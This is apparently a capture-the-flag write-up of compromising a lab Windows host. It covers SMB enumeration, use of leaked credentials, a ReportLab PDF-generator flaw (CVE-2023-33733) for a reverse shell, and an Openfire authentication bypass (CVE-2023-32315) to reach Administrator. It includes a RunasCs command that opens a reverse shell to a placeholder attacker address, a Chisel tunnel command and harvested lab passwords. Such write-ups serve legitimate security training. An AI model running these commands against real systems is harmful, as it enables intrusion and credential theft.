I started with a full TCP port scan to identify exposed services on the target machine.
nmap 10.10.11.16 -Pn -sC -sV --open -p- -oN scan.txt
The scan revealed several services including HTTP on port 80, MSRPC, NetBIOS, SMB on port 445, and another HTTP service running on port 6791.
While performing directory enumeration, I accessed the HTTP service on port 6791, which required adding the corresponding hostname to /etc/hosts.
After reloading the page, a login panel was presented.

The HTTP service on port 80 did not expose any interesting functionality, which suggested that authentication bypass was unlikely and valid credentials would be required. Multiple injection attempts and default credentials were tested without success.
Since SMB was running on port 445, I attempted anonymous enumeration to identify accessible shares.
crackmapexec smb 10.10.11.16 -u 'anonymous' -p '' --shares
Using anonymous access, I connected to the Documents share with smbclient.
smbclient //10.10.11.16/Documents -U "anonymous"
Inside the share, a file named details-file.xlsx was found, which contained password information.

To further enumerate users, I performed RID brute forcing over SMB.
crackmapexec smb 10.10.11.16 -u 'anonymous' -p '' --rid-brute
This process revealed valid credentials: blake:ThisCanB3typedeasily1@. Given the naming convention observed, I inferred the correct username to be blakeb, using the same password.

With these credentials, I successfully authenticated and accessed the application dashboard.

Once authenticated, the next objective was to obtain remote code execution. The application was identified as a PDF generator.

Research revealed CVE-2023-33733, a vulnerability caused by insufficient validation in the rl_safe_eval function.
This flaw allows malicious code injection within an HTML file that is later converted into a PDF using the ReportLab library.
I filled in all required fields and intercepted the Generate PDF request using Burp Suite.

The intercepted HTTP request is shown below.

Before sending the malicious payload, I started a listener on my attacking machine.

I then crafted a reverse shell payload, either using msfvenom or revshells.com, injected it into the request, and sent the POST request. This resulted in a successful reverse shell.


Due to instability when establishing the shell, I implemented persistence using Metasploit.



After stabilizing access, I executed WinPEAS to enumerate privilege escalation vectors. This revealed the presence of a database file named users.db.

I downloaded the database and extracted user information from it.

Within the database, several credentials were found:
openfire:HotP!fireguard
db.session.add(User(username='blakeb', password='ThisCanB3typedeasily1@'))
db.session.add(User(username='claudias', password='007poiuytrewq'))
db.session.add(User(username='alexanderk', password='HotP!fireguard'))
To switch users and obtain a new shell, I used RunasCs. First, I launched PowerShell to execute RunasCs.
./runas.exe openfire HotP!fireguard powershell -r <IP>:<PORT>

I identified that Openfire was running locally on port 9090.

To access it externally, I performed port forwarding using Chisel.
C:\Users\blake\Documents\app\chisel.exe client <IP>:<PORT> R:9090:127.0.0.1:9090Accessing the forwarded service from my machine presented another login panel.

This login was vulnerable to an authentication bypass using CVE-2023-32315. After bypassing authentication, I located the Openfire embedded database at:
C:\Program Files\Openfire\embedded-db\openfire
From this database, I extracted the Administrator hash and decrypted it using openfire_decrypt. The recovered credentials were:
Administrator:ThisPasswordShouldDo!@
Finally, I used RunasCs once more to switch to the Administrator account and successfully obtained the root flag.